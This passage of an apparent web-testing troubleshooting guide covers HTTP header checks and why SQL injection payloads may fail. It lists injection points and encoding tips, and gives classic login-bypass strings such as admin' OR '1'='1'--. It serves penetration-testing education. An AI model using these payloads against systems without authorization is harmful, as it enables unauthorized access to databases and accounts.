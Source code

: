 ```bash
# Confirm target is reachable

# Step 3: Check Headers
# Required headers for POST requests:
- Host: (must match target)
- Content-Type: application/x-www-form-urlencoded
- Content-Length: (must match body length)

# Step 4: Test Simple GET First
GET / HTTP/1.1
Host: target.com

# Should receive response before testing complex requests
```

---

### **❌ Problem 4: Payloads Not Working**

**What You See:**
```bash
# SQL injection payloads return normal responses
# No error messages or vulnerability indicators
# Same response for all payload variations
```

**How to Fix:**
```bash
# Step 1: Check Encoding Issues
# Manual URL encoding for special characters:
' → %27 (single quote)
" → %22 (double quote)  
& → %26 (ampersand)
= → %3D (equals)

# Step 2: Try Different Injection Points
# URL parameters: ?id=PAYLOAD
# POST body: username=PAYLOAD&password=test
# HTTP headers: User-Agent: PAYLOAD
# Cookie values: session=PAYLOAD

# Step 3: Test Multiple Payload Variations
# Basic SQL injection:
admin' OR '1'='1'--
admin' OR 1=1--
admin'/**/OR/**/1=1--
admin' OR 'a'='a'--

# Step 4: Look for Subtle Response Changes
# Status codes: 200 vs 500
# Content length: 1234 bytes vs 1890 bytes
# Response timing: fast vs slow
# Error messages: any database or system errors
```

---